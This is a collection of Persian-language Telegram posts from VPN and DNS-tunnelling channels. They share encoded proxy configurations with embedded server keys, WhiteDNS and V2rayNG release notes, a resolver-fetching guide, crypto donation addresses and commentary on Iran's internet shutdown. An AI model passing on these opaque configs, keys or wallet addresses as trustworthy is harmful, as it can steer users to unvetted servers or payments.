slipnet-enc://AfHl7xL8eAFtT6G0c6DuJXpHgU/4Cd3pD/zRGczJEJb7E9TUhb5JgvOB/gPFPeJbuLOqDow891r1L6lJNt/hzX5C3AgzSrvQnnOcSRyutc1+ry0WUWJp+ZSU8hJHGh/72kILOKvbcOgQXMHiddoaLQ2TCUcGB2aPgO8CKcTHHBA0ZkVpdGucy9Krrvgn75LS1q0kCdCTzjcagn3EhBe3kn4wJfdPXajOMsZGlTVjzn6KzQ90JgFqTmf9Bzv0nE2oRhbsyTGW6DyABBMcSJJiNLISmZcb+2psaiTvkw926kIkgvjQs51PzOc1Up7VfpB0GPBEyVYG5ktJNQ7Q++00PZYCQa4JNmaKoOJW42J1UHqaHzMy+WSi+JBn6tk1gdZSWbig6pP0kYtmXFSLfkWab35oyg2NNNGtxEqz9U0pv2/BgJ8jqMPdpHGiYkZf+5cv3hZ/xod8BugV/gtrRR88VUd9yqGO5IZ83HgazXW90TIjG6N2pkFg6ICHYm0Yqx8SD3gIKx6jBfXUyUXmFg5LkgLeCcbQ0iGmQOLa84bD+qy4ppH9YAjDM8osDP2+6J+QuA6vr9+iOVQUeoEMJkIhLTUhdaWiOObdoNbU4DK8zKN9yfQixGrBRXfEtcs/1xa6Tnp0sqNbVLWnyHLyJRr76A4QQRt5Hh43ZiMJ0LtU1rVhXK8I5PBg+wYpjnvscFLWFh8spXlJjQSRdr1UBi6cXwpMz94bj6HLMwVi49J9Qd9c4b1iWROvspDduqtR7bpLthV9zxWTCUgsBmJxeYM=

📱کانفیگ اسلیپ

📱مخصوص نسخه جدید  2.5.3

📱دانلود نسخه جدید

📱تنظیمات پیشنهادی

https://t.me/socks?server=127.0.0.1&port=10880&user=%40Zel2oVPN

☑➜@Zel2oVPN

## Zel2oVPN — post 2721

  <a href="https://t.me/Zel2oVPN/2721" target="_blank">📎 Download file</a>

✅ نسخه جدید برنامه V2rayNG اندروید

💡نسخه 2.1.7

▪️تغییرات:
• فعال‌سازی مستقل IPv6
• رفع باگ‌ها و بهبود عملکرد
• تنظیمات جدید KCP (MTU/TTI)
• میانبر سریع شروع/توقف سرویس
• انتخاب بصری پکیج‌ها در Routing
• بهبود آپدیت اشتراک‌ها در پس‌زمینه
• امکان تعیین هم‌زمانی تست تأخیر
• آپدیت هسته به Xray-core v26.5.9
• پورت داینامیک برای SOCKS محلی
• اضافه شدن Chain Proxy و Browser Dialer
• پشتیبانی از یوزرنیم و پسورد برای SOCKS محلی
• غیرفعال‌سازی پراکسی محلی یا UDP در SOCKS5

📥لینک دانلود داخلی

☑➜@Zel2oVPN

## Zel2oVPN — post 2720

✅VayDNS [S100]

slipnet-enc://AQeb5iewvyGSG7kUcXXXSMDH+cFPyZUAQxb+4Pv2jUyk2+Q61uZAk5CsXcwpCCVmsu1DTMJn9P8J6zUiyVKPuxFNNEAZs+aowofYhf40TZIa33cj29Wau7LKW568v6BiyZnKOCAfS4ZXAPnH+XQgenikfk5IWA8KoZrnn+5whJP7AaW1wC3JaQMqLnHJAfrIpez9tu9OO71iIJBWUbD0sVOgOPD80oJyg3n1j2i6X5OxEL/wsA9IEYBSlJivgWbBNzkHRPxzQT22hanKa3znA2MntBhaivxInpaqr5q8iJhT/yN20eZmkc2v2PNEBiemFlznSjWj0Xke48IUfHk23fHUp/loF85TvXautgCgqBGViq1hKFQNMWyteWknw9y5qlQsDUHm86BTfEUDLucg3I+I+LdXqx4cVjvrfq093UVIhOnlEJWQ8YaKZs/6Sow1fvu9+8WLY0KonRyPDpz1ObOGIauidsIFzwsXUCmAkn8homr/E/u+7GTsTlMj8H/lb0iknUKQTxYyuRXsR8/c+4HhJF+2uCx03MU6XzWx3RXHAbt6PmQKndVXSzK6b/5WxTlRemARFB388JQH9W2kTelsn/baw5IOdhePqvxEHQySVR6by2Pj6ZM6SDsOp9ogJGeg3sbh86MGIXGV5PqXMfuuX7C2U6xjqulR94U08jVirLQzx7Tbx0mQvwQ9Ihd49VGNm2BXf6UZpSpHnI8qIP4bhq+19YsVFfdJ8NELIT3TijgO7aBa36DAVgPLr4ReELzG5TEuRmGVEZqK

📱کانفیگ اسلیپ

📱مخصوص نسخه جدید  2.5.3

📱دانلود نسخه جدید

📱تنظیمات پیشنهادی

https://t.me/socks?server=127.0.0.1&port=10880&user=%40Zel2oVPN

☑➜@Zel2oVPN

## Zel2oVPN — post 2719

✅VayDNS+SSH [S99]

slipnet-enc://AfRaS2cLNI4N50RuORJWSXS+p4OBU+M45NBaYfpllItnNhZdqx+jGs6aPLxiJHfx7BaoYM28JTZJKbpRycn8MtD3BfkRnOXzJT++OZYtQ8E5J8gQEEBGiOE4WDQaH74JZ1uOFYDMp1ONlSRPPy60T5Tdpn0wR2MvqQuQfqICc2qN0UmY1+Xb0Vuq/Zg0rkp2CbD1TvYQLefPgTO9XThwLOplG2no8kSQN8R5lUmLtQyoJmoCDTUSO0xDtid6oEdXRM2OLjzfY71hQwHXhAf6MVX4G4+BCioCwTEhIpxgf49kD/NitlGFcpodKDkTNGKt3BTDbrmv7tgpi4YG5VekY+xoW7j3waS5xiRc3Kow0y5HkrjXEBzo6PwI9nFW4yWBdqecoc9VtC0f89jMjQaOlhOIvZzAGKxqKyJQLJeK37l3vEfRRN0Jwuc6Y6NPSq3FZw/44hzYS229U+KS4YPTHFJMl7y6kNHIDXg7nQCV0ORlDFGhKkgZq5yI3NTUoQOqpL8WeJ7cyPnsguoyCehbXwNpOOYVmKwzPtN4dEqxanYcToWJgE/KOSoQwEJYwow9BrK06Sxw+Syq4RPz7AzkUGw5VYTCt9KNzH5l5EUVuGhP83+CRS8e82Jq5JWrBrcVRKjcm1vk/ZTZi2mDyiMn13T1Q4NNsuOFzl7bLaEx+q/FrwtJPPxuMa8NUX5ZobI8t0xs33auxKrd1sd7yBXBAC12mvKHmiRq/GEPchAblExVSFNRDhHw1V0j4U73UH/TUrRqlWxWajHrdUaiOnyimQOmbFawoA1fRb+wZLNIhF1K17WnKmgPkg==

📱کانفیگ اسلیپ

📱مخصوص نسخه جدید  2.5.3

📱دانلود نسخه جدید

📱تنظیمات پیشنهادی

https://t.me/socks?server=127.0.0.1&port=10880&user=%40Zel2oVPN

☑➜@Zel2oVPN

## Zel2oVPN — post 2718

✅DNSTT [S98]

slipnet-enc://AS/DfXvsKf/gHxGpO4tOhDsw27GAER0OEjfFrBr18LxRWBT3a7aHfF2fTjsXiRYduMPMzg5qVyi+WAl8N5+tWzY9ZLXHGVq8s/VberWACS9oKVNRLduhm/wEICYARrx3O8IbpB0921Jfea/H3BYhvyzg/dOTWA0WM4bNIa9899buoBaeLkRteqakw8GSrApgeoAEM4Tq/EZav1IFFrfZCoJS9yLCWwyIdVzoY4JvdFF4SvTSJTaZstSk4VzsNIDWBY/HmhN89FBw6ShYBOhAKeI6yQvqU7SxnA672D/hOKWkLgq1sEIStK2H5q1zpd6bGxKcG/z47v2JMEIOUVDeoGL0sPUkGjw3LuYBHnPxgwcrTQDOngp+oRaomsOx36nWaCyAUoOWgPOinoM7d6cEXoxFsVYp6NL7wgV/mOEsNPA0+bAOaRF5Ri6U4tf0cV5Go4ekQ/JZf2QdTW0eGqPJKe3KiH1O7VcnyysIN5JgGbZJm8R429kaBJp6a22ffonl8Ft9b1cis85h5BzHSdCxekAfgteNAgRTu4NbcKVB3jwtnMy6q3q0M9W456cgkTf+//y0+Hhld8JtERdDaO4+YORufM/i+225qbztjNX+cTFlAeLU+Hyx9sxAxmRqaEH1wMh3YHx5OPfKkSE5fNA9+ya14gBXv7FI17o+Y6kbnvca/ZF1fhju9R0VQczGMu3g8EUA7/1UOjSu16iuMQ==

📱کانفیگ اسلیپ

📱مخصوص نسخه جدید  2.5.3

📱دانلود نسخه جدید

📱تنظیمات پیشنهادی

https://t.me/socks?server=127.0.0.1&port=10880&user=%40Zel2oVPN

☑➜@Zel2oVPN

## Zel2oVPN — post 2717

  <a href="https://t.me/Zel2oVPN/2717" target="_blank">📎 Download file</a>

اپدیت جدید WhiteDNS
نسخه 1.1.0

لینک دانلود داخلی

آموزش وایت دی ان اس

☑➜@Zel2oVPN

## whitedns — post 579

به دلیل تعویض زیاد سرور ها توسط کاربران، تلگرام ممکنه بخاطر امنیت اکانت شما دستگاه شما رو از روی اکانت logout کنه و دیگه نتونید وارد اکانتتون بشید!

راه‌حل:
1. اکانت تلگرام خود را روی یک گوشی دیگر login کنید تا در صورت logout شدن شما بتونید دوباره به اکانت بازگردید.

2. رمز دو مرحله‌ای اکانت و ایمیل بازیابی را فعال کنید.

@WhiteDNS

## whitedns — post 578

  

‏اگر اینترنت غزه، اوکراین یا هرجایی که حمایت از آن برای حامی‌نماهای حقوق بشر "ویترین اخلاقی" داشته باشد فقط ۷ روز قطع میشد، دنیا را روی سرشان خراب می‌کردند؛ اما اینترنت ایران ۷۴ روز است عملاً قطع شده و آب از آب تکان نخورده است.

‏فکر می‌کنید اتفاق خاصی افتاده؟ خیر.
‏ضریب دسترسی واقعی به اینترنت آزاد در ایران به گواه نت‌بلاکس به حدود ۲ درصد رسیده؛ میلیون‌ها انسان نه ۷ روز، بلکه ۷۴ روز عملاً در یک زندان دیجیتال گروگان گرفته شده‌اند و همزمان که جمهوری اسلامی در پشت پرده به سرکوب، بازداشت و اعدام مشغول است، آشغالی به نام ⁧ #اینترنت_پرو⁩ را به‌عنوان راه‌حل به مردم می‌فروشد، که عقیم‌سازی عمدی دسترسی آزاد به اطلاعات و نقض آشکار حقوق انسانی و حریم خصوصی شهروندان است.

‏ظاهراً برای جهان مدعی آزادی، فقط آن دسته از رنج‌هایی دیده می‌شوند که موضع‌گیری برایش هزینه‌ای نداشته باشد، یا چشم‌های مردمانش رنگی باشد.

منبع
https://x.com/ircfspace/status/2054094958353678824?s=46

## whitedns — post 577

## whitedns — post 575

  

راهنمای دریافت ریزالورهای MasterDNS / StormDNS در WhiteDNS

ربات WhiteDNS حالا امکان جدیدی برای دریافت ریزالورهای MasterDNS / StormDNS دارد.

برای دریافت لیست ریزالورها مراحل زیر را انجام دهید:

1️⃣ وارد ربات زیر شوید:

@dns_resolvers_bot

2️⃣ دستور زیر را برای ربات ارسال کنید:

/dns_master

3️⃣ بعد از نمایش لیست ریزالورها، برای استفاده در اپلیکیشن WhiteDNS روی دکمه Copy Raw بزنید.

4️⃣ لیست کپی‌شده را داخل اپلیکیشن WhiteDNS وارد کنید و از آن برای اتصال استفاده کنید.

@WhiteDNS

## whitedns — post 574

🚀 سرور اهدایی از چنل @Masir_Sefid

stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoiQE1hc2lyX1NlZmlk8J-ViigxKSIsInNlcnZlciI6eyJkb21haW4iOiJzLm80cy5zaG9wIiwiZW5jcnlwdGlvbl9rZXkiOiJUZWxlZ3JhbS1DaGFubmVsLS0tPkBNYXNpcl9TZWZpZCIsImVuY3J5cHRpb25fbWV0aG9kIjoxfX19
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoiQE1hc2lyX1NlZmlk8J-ViigyKSIsInNlcnZlciI6eyJkb21haW4iOiJzMi5vNHMuc2hvcCIsImVuY3J5cHRpb25fa2V5IjoiVGVsZWdyYW0tQ2hhbm5lbC0tLT5ATWFzaXJfU2VmaWQiLCJlbmNyeXB0aW9uX21ldGhvZCI6MX19fQ
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoiQE1hc2lyX1NlZmlk8J-ViigzKSIsInNlcnZlciI6eyJkb21haW4iOiJzMy5vNHMuc2hvcCIsImVuY3J5cHRpb25fa2V5IjoiVGVsZWdyYW0tQ2hhbm5lbC0tLT5ATWFzaXJfU2VmaWQiLCJlbmNyeXB0aW9uX21ldGhvZCI6MX19fQ
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoiQE1hc2lyX1NlZmlk8J-Viig0KSIsInNlcnZlciI6eyJkb21haW4iOiJzNC5vNHMuc2hvcCIsImVuY3J5cHRpb25fa2V5IjoiVGVsZWdyYW0tQ2hhbm5lbC0tLT5ATWFzaXJfU2VmaWQiLCJlbmNyeXB0aW9uX21ldGhvZCI6MX19fQ
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoiQE1hc2lyX1NlZmlk8J-Viig1KSIsInNlcnZlciI6eyJkb21haW4iOiJzNS5vNHMuc2hvcCIsImVuY3J5cHRpb25fa2V5IjoiVGVsZWdyYW0tQ2hhbm5lbC0tLT5ATWFzaXJfU2VmaWQiLCJlbmNyeXB0aW9uX21ldGhvZCI6MX19fQ

@WhiteDNS

## whitedns — post 573

White DNS pinned a video

## whitedns — post 572

  <a href="telegram/content/whitedns_572_1778607678.mp4" target="_blank">🎬 Download video</a>

آموژش نسخه جدید Whitedns 📲✨

یکی از اعضای کانال آقا محسن زحمت کشیدند 👨‍💻

✅ نسخه اپلیکیشن به 1.2.0 ارتقا پیدا کرده 🚀

✅ حالت Full VPN کامل‌تر و پایدارتر شده 🔒

✅ حالا DNS هم داخل خود WhiteDNS مدیریت می‌شود 🌐

✅ دیگر برای باز شدن سایت‌ها و اپ‌ها نیازی به NekoBox، NVPN یا ترفندهای مشابه ندارید 🚫

✅ مشکل وصل بودن VPN ولی باز نشدن بعضی سایت‌ها و اپ‌ها برطرف شده ✅

✅ اتصال روی اینترنت‌های کند و Resolverهای دیرپاسخ بهتر کار می‌کند ⚡️

✅ صفحه اصلی ساده‌تر شده و انتخاب سرور، Resolver و نوع تنظیمات راحت‌تر انجام می‌شود 🎯

✅ اگر سرور یا Resolver درست تنظیم نشده باشد، اپ واضح‌تر نشان می‌دهد چه چیزی کم است ⚠️

✅ می‌توانید تنظیمات پیشرفته را با نام دلخواه ذخیره کنید 💾

✅ امکان ساخت چند پروفایل تنظیمات پیشرفته اضافه شده 📂

✅ می‌توانید هر زمان بین پروفایل‌های ذخیره‌شده تنظیمات پیشرفته جابه‌جا شوید 🔄
✅ امکان برگشت سریع به تنظیمات پیش‌فرض اضافه شده ↩️

✅ بعد از اتصال، نام پروفایل سرور، Resolver و تنظیمات فعال نمایش داده می‌شود 📋

✅ امکان خروجی گرفتن فایل client_config.toml از داخل اپ اضافه شده 📄

@whitedns

## whitedns — post 567

  <a href="https://t.me/whitedns/567" target="_blank">📎 Download file</a>

سلام به همه دوستان

نسخه جدید WhiteDNS آماده شد. ممنون از همه کسانی که نسخه‌های قبلی رو نصب کردند، تست گرفتند، لاگ فرستادند و با فیدبک‌هاشون کمک کردند مشکلات رو پیدا و برطرف کنیم 🙏

تمرکز اصلی این نسخه روی بهبودهای داخلی VPN در خود WhiteDNS بوده است. هدف این بود که اتصال کامل‌تر، پایدارتر و مستقل‌تر شود تا کاربران برای باز شدن سایت‌ها و اپ‌ها دیگر نیازی به NekoBox، NVPN یا راه‌حل‌های مشابه نداشته باشند.

در این نسخه مسیر DNS و ترافیک داخل خود WhiteDNS بهتر مدیریت می‌شود، بنابراین تجربه اتصال ساده‌تر شده و کاربر می‌تواند مستقیماً از داخل اپ وصل شود.

✅ نسخه اپلیکیشن به 1.2.0 ارتقا پیدا کرده
✅ حالت Full VPN کامل‌تر و پایدارتر شده
✅ حالا DNS هم داخل خود WhiteDNS مدیریت می‌شود
✅ دیگر برای باز شدن سایت‌ها و اپ‌ها نیازی به NekoBox، NVPN یا ترفندهای مشابه ندارید
✅ مشکل وصل بودن VPN ولی باز نشدن بعضی سایت‌ها و اپ‌ها برطرف شده
✅ اتصال روی اینترنت‌های کند و Resolverهای دیرپاسخ بهتر کار می‌کند
✅ صفحه اصلی ساده‌تر شده و انتخاب سرور، Resolver و نوع تنظیمات راحت‌تر انجام می‌شود
✅ اگر سرور یا Resolver درست تنظیم نشده باشد، اپ واضح‌تر نشان می‌دهد چه چیزی کم است
✅ می‌توانید تنظیمات پیشرفته را با نام دلخواه ذخیره کنید
✅ امکان ساخت چند پروفایل تنظیمات پیشرفته اضافه شده
✅ می‌توانید هر زمان بین پروفایل‌های ذخیره‌شده تنظیمات پیشرفته جابه‌جا شوید
✅ امکان برگشت سریع به تنظیمات پیش‌فرض اضافه شده
✅ بعد از اتصال، نام پروفایل سرور، Resolver و تنظیمات فعال نمایش داده می‌شود
✅ امکان خروجی گرفتن فایل client_config.toml از داخل اپ اضافه شده
✅ ظاهر صفحه اتصال و دکمه Connect/Stop مرتب‌تر و جمع‌وجورتر شده

🔗 GitHub:
https://github.com/iampedii/WhiteDNS/releases/tag/1.2.0

از همراهی و حمایت شما ممنونیم ❤️

1⃣ WhiteDNS

## whitedns — post 565

  <a href="telegram/content/whitedns_565_1778607685.webm" target="_blank">🎬 Download video</a>

سلام خدمت همگی دوستان

🔴 11 سرور اختصاصی جدید و بهینه برای اپلیکیشن WhiteDNS

stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidi53aGl0ZWRucy5zaG9wIiwic2VydmVyIjp7ImRvbWFpbiI6InYud2hpdGVkbnMuc2hvcCIsImVuY3J5cHRpb25fa2V5IjoiYjA3ZGMzNTczNjBkNmU2ODk2NTA5MTM2ZDcwOTc4OTciLCJlbmNyeXB0aW9uX21ldGhvZCI6MX19fQ
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjEyLndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjEyLndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjAwOWM1MTRiMmE2NDNlZDQwY2JkN2NjNjE5Mzg5YjBmIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjEwLndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjEwLndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjFlY2Q1ZmRmZTM1MWE5MzEzY2VhMzlmZTFiOWM1OWRkIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjkud2hpdGVkbnMuc2hvcCIsInNlcnZlciI6eyJkb21haW4iOiJ2OS53aGl0ZWRucy5zaG9wIiwiZW5jcnlwdGlvbl9rZXkiOiJhMmYzMzQ4YmZhMDIxNzA2Mzk5NzBmMmQ2M2YxMDNkYyIsImVuY3J5cHRpb25fbWV0aG9kIjoxfX19
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjExLndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjExLndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjRjMTY2OTMyNmNkYmU4OThjYWIwOTY1YWNlMzAxMGMwIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjEzLndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjEzLndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6ImUyOTE4ODcwY2U4OGYwNTU0N2ZiZmJhOTlhZWU0ZWM1IiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjE0LndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjE0LndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjliODY3MmEzNTJkMDQwNDg5ZDk2YmU5ZGY5N2VkOTY2IiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjE1LndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjE1LndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjlhYTY4ZTdlOWE3YzIyZDkxZDhmNDY2ZDY0YTM1ZGZmIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjE2LndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjE2LndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjU5Mjg0NWNhMzhmMTk0NjEzODNkMDU3MzNjMzMyMTRjIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjE3LndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjE3LndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6IjU3NjU1MDM1NGE3MzA5NTMwYjdmYTI1MTUyZGM2NzJmIiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0
stormdns://eyJzY2hlbWEiOiJ3aGl0ZWRucy5wcm9maWxlIiwidmVyc2lvbiI6MSwicHJvZmlsZSI6eyJuYW1lIjoidjE4LndoaXRlZG5zLnNob3AiLCJzZXJ2ZXIiOnsiZG9tYWluIjoidjE4LndoaXRlZG5zLnNob3AiLCJlbmNyeXB0aW9uX2tleSI6ImQwNTM4YTNkNTQ1YTc4MzBiOGJiMmViMGMzNzQ4ZTk1IiwiZW5jcnlwdGlvbl9tZXRob2QiOjF9fX0

#Servers
@WhiteDNS

## whitedns — post 564

👇👇👇👇👇👇👇👇👇
https://t.me/whitedns_group

## whitedns — post 562

امروز یک هفته از انتشار نسخه بتا۱ اپلیکیشن WhiteDNS می‌گذره 🎉

فکر می‌کنم برای شروع، اپلیکیشن مسیر خوبی رو طی کرده و این فقط با همراهی شما ممکن شده.

خواستم از همه دوستانی که در این مدت با دقت تست کردند، مشکل‌ها رو گزارش دادند و فیدبک درست و کاربردی به تیم ما دادند تشکر کنم. همین بازخوردها باعث شده هر روز بتونیم WhiteDNS رو بهتر، پایدارتر و کاربردی‌تر کنیم.

از اینجا به بعد، سرعت آپدیت‌های نسخه اندروید کمی کمتر میشه تا بتونیم تمرکز بیشتری روی توسعه نسخه ویندوز داشته باشیم.

از دوستان عزیزی که خارج از کشور هستند، همچنان درخواست داریم اگر امکانش رو دارند با دونیت سرور به پروژه کمک کنند. این کمک‌ها مستقیماً به بهتر شدن کیفیت سرویس برای همه کاربران کمک می‌کنه.

از دوستانی که داخل ایران هستند هم یک درخواست مهم داریم:
لطفاً فقط مصرف‌کننده ریزالورها نباشید. برای زنده نگه داشتن شبکه، باید مداوم اسکن انجام بدیم و ریزالورهای جدید پیدا کنیم.

WhiteDNS با کمک جامعه کاربری خودش قوی‌تر میشه؛ نه فقط با استفاده، بلکه با مشارکت همه ما.

ممنون از همراهی شما ❤️

@WhiteDNS

## whitedns — post 561

  

سلام خدمت همه دوستان 🙌

دکمه Donation به ورژن بتا۷ اضافه شده. هر کمکی از سمت شما فقط هزینه ساخت سرور های جدید و بهبود اپ WhiteDNS خواهد شد.

هیچ اصراری برای کمک نیست و تیم WhiteDNS کاملا رایگان و تا اتمام قطعی اینترنت ایران ادامه خواهد داد.

ممنون بابت همراهی شما 🙏
USDT (TON)

UQCVUC-eZzxNkVVewFp9pz43JKd0XIc55KCdC5gbwxJKiqoL

USDT (TRC20 / TRON)

TNvdayQydF8t8bNHMuBctxVdgiaWeNKhmR

USDT (ERC20 / Ethereum)

0x87519c886F79d3935b9A45519f821519272D9967

USDT (Solana)

7zKyVVnJRBEiw6vL6vnX1VKUTEkw5QvXu696QV5qLS94

@WhiteDNS

## whitedns — post 556

  <a href="https://t.me/whitedns/556" target="_blank">📎 Download file</a>

سلام به همه دوستان

نسخه جدید WhiteDNS آماده شد. ممنون از همه کسانی که نسخه‌های قبلی رو نصب کردند، تست گرفتند، لاگ فرستادند و با فیدبک‌هاشون کمک کردند مشکلات رو پیدا و برطرف کنیم.

هدف اصلی از انتشار نسخه ۱.۱.۰، رفع مشکل «وصل می‌شود و دیتا مصرف می‌کند، اما چیزی باز نمی‌شود» است.
👇👇👇👇👇👇👇👇👇👇👇👇
در این نسخه، اپلیکیشن بعد از اتصال وضعیت واقعی مسیر ارتباط را بررسی می‌کند و دیگر تلاش برای استفاده از Resolver یا تونل ضعیف و بدون پاسخ را بی‌پایان ادامه نمی‌دهد. اگر مسیر اتصال بعد از چند تلاش قابل استفاده نباشد، ارتباط‌های جدید رد می‌شوند و اتصال معیوب بسته می‌شود تا حجم بسته شما بی‌دلیل مصرف نشود.

همچنین هسته StormDNS در این نسخه تغییرات مهمی داشته و به همین دلیل اتصال بسیار سریع‌تر برقرار می‌شود. VPN/Proxy بعد از پیدا کردن حداقل Resolverهای سالم با MTU امن سریع‌تر فعال می‌شود و اسکن کامل Resolverها و MTU در پس‌زمینه ادامه پیدا می‌کند. علاوه بر این، اتصال‌های ناسالم زودتر تشخیص داده می‌شوند، مدیریت ارتباط‌های جدید پایدارتر شده و کتابخانه‌های native برای همه معماری‌های اندروید دوباره ساخته شده‌اند.

در این نسخه تمرکز اصلی روی پایداری بهتر اتصال، شروع سریع‌تر VPN/Proxy، مدیریت راحت‌تر پروفایل‌ها، اشتراک‌گذاری تنظیمات اتصال و عیب‌یابی امن‌تر بوده:

✅ نسخه اپلیکیشن به 1.1.0 ارتقا پیدا کرده
✅ مشکل گزارش‌شده‌ای که بعضی کاربران وصل می‌شدند و مصرف دیتا دیده می‌شد، اما سایت‌ها و اپ‌ها باز نمی‌شدند، برطرف شده
✅ حالا بعد از اتصال، مسیر ارتباط بررسی می‌شود و اگر تونل، Resolver یا مسیر خروجی پاسخ‌گو نباشد، اتصال‌های جدید به جای گیر کردن و مصرف بی‌فایده دیتا رد می‌شوند
✅ وضعیت سلامت اتصال داخل اپ نمایش داده می‌شود تا مشخص باشد اتصال واقعاً قابل استفاده است یا نیاز به بررسی دارد
✅ سرعت شروع اتصال بهتر شده؛ اپ بعد از پیدا کردن حداقل Resolverهای سالم با MTU امن، VPN/Proxy را سریع‌تر فعال می‌کند
✅ اسکن کامل Resolverها و MTU حالا در پس‌زمینه ادامه پیدا می‌کند و Resolverهای سالم بعداً به اتصال اضافه می‌شوند
✅ امکان روشن و خاموش کردن WhiteDNS از Quick Settings اندروید اضافه شده
✅ دکمه Disconnect به نوتیفیکیشن VPN و Proxy اضافه شده
✅ امکان Import پروفایل از لینک‌های stormdns:// اضافه شده
✅ هنگام Export پروفایل، QR Code نمایش داده می‌شود تا اشتراک‌گذاری راحت‌تر باشد
✅ ورود Resolverها ساده‌تر شده و حالا می‌توانید چند Resolver را با کاما، سمی‌کالن یا خط جدا وارد کنید
✅ پورت پیش‌فرض :53 به صورت خودکار مرتب و ساده‌سازی می‌شود
✅ اگر Resolver واردشده اشتباه باشد، اپ قبل از اتصال خطا را نشان می‌دهد
✅ تنظیمات پیش‌فرض MTU و پایداری اتصال بهینه‌تر شده‌اند
✅ مدیریت پروفایل‌ها هنگام اتصال بهتر شده و فقط در زمان Connecting محدود می‌شود
✅ بخش Split Tunnel و تنظیمات پیشرفته مرتب‌تر و جمع‌وجورتر شده‌اند
✅ بخش Logs به جای خروجی فایل، Diagnostics آماده و امن تولید می‌کند که اطلاعات حساس داخل آن مخفی می‌شود
✅ هسته StormDNS برای همه معماری‌های اندروید دوباره ساخته شده و پایداری اتصال بهتر شده است

🔗 GitHub:
https://github.com/iampedii/WhiteDNS/releases/tag/1.1.0

از همراهی و حمایت شما ممنونیم ❤️

1️⃣ WhiteDNS

## mirzapanel — post 1306

سنایی جان مجدد درحال پخت پزه😁

## mirzapanel — post 1305

درود ربات نسخه رایگان و اشتراکی تا نسخه 2.9.4 سنایی رو پشتیبانی میکند و نسخه جدید پشتیبانی نمیشه بزودی آپدیت خواهم داد

## mirzapanel — post 1304

  

‏جادی شانس آوردی!😅 اگه کوکی user_session اونجا بود کار گیت‌هابت تموم بود! زیر یه ثانیه میاد.‏

😎 Nabi

## mirzapanel — post 1303

https://github.com/MHSanaei/3x-ui/releases/tag/v3.0.1

## mirzapanel — post 1302

  

سنایی در آپدیت جدیدش قابلیت قابل توجهی اضافه کرده است که چند تا از این مورد اضافه شدن نود ، تغییر دیزاین پنل و ... هست🥳
🤩

## mirzapanel — post 1301

سنایی در آپدیت جدیدش قابلیت قابل توجهی اضافه کرده است که چند تا از این مورد اضافه شدن نود ، تغییر دیزاین پنل و ... هست🥳
🤩

